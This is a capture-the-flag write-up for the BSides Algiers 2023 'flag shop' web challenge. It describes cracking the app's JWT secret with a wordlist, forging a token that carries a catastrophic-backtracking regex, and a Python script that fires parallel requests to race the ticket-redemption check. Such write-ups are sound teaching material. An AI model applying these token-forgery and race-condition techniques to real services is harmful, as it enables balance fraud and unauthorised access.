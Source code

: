 # bsides-algiers-2023-flagshop
Writeup for the flag shop challenge in the web category from bsides algiers ctf
# info about the challenge
- Description: They got some fancy flags out there, but that one really takes time to get.
- Solves: 7
- Author: ouxs
- The code provides is in app.py and utils.py
# solution
[home page](./writeup1.png)
  When we first register a user to the website ,we see in the home page 3 flags and to solve the challenge we need to by the flag that has a price of 40.99.\
  We can see that we have an initial balance of 10 and we have an option to redeem a ticket and add 10 to the balance, in order to see the format of the tickets we must see the code ,in app.py after checking the /redeem route we see many important informations in this section of the code \
```python
ticket = request.form["ticket"]
        token_content = jwt.decode(token, app.config['SECRET_KEY'], algorithms=["HS256"])
        username, regex = token_content["username"], token_content["ticket_regex"]
        if checkRedeem(username) and checkTicket(regex, ticket):
            userRedeem(username)
            return render_template("home.html", flags=flags, message="Ticket redeemed", balance=getBalance(username))
        else:
            return render_template("home.html", flags=flags, message="Can't redeem ticket", balance=getBalance(username))
```
   We can see that jwt is used and it has a ticket_regex in the payload, the regex is generated with the generateticket funtion in utils.py, we can clearly see that if a user uses a valid ticket once he will no longer be able to use the redeem option and thus the maximum balance he can have is 20 so we need to find a way to use the userReddem function more than once. \
   I tried cracking the jwt to get the secret key using john the ripper and the rockyou wordlist to see if i can play with the jwt payload, i found the secret key chickencurry.
   After some research on how can regex be hard for computers to match against strings i found something called evil regex which are usually used for redos, so i thought of making a regex that can make the web server take long to match with the ticket so all the requests can pass the checkRedeem function before executing userRedeem
   I experimented with some regex locally and i made this one ^(a+)+$| and the ticket that i will send is "aaaaaaaaaaaaaaaaaaaaaaaa!", this will match the regex and take sometime because the webserver will try the first regex (a+)+$ which is an evil regex and does not match the ticket so it will test all the possible ways to say that it doesn't match and with the or operator it will match the second regex so we will have a matching object
   Now after finding the regex we make a jwt with that regex and make a script to send parallel requests using multiprocessing to make our balance bigger than the flag price \
   here is the script:
   ```python
   import requests
from multiprocessing import Process

if __name__ == '__main__':
    # Define the URL to send the POST request to
    url = 'https://vrlmcgzdzytq6fy-flags-shop.insts.bsides.shellmates.club/redeem'

    tok="your token"
    # Define the cookies to send with the request
    cookies = {'token': tok}
    payload="aaaaaaaaaaaaaaaaaaaaaa!"
    # Define the data to send in the request body
    data = {'ticket': payload}
    # Send 5 POST requests in parallel using multiprocessing
    processlist = []
    for _ in range(0, 6):
        process = Process(target=requests.post, kwargs={"url":url,"cookies":cookies ,"data":data})
        processlist.append(process)

    for process in processlist:
        process.start()

    for process in processlist:
        process.join()
```
   edit your token cookie with the jwt that you have, now you can by the real flag!
   
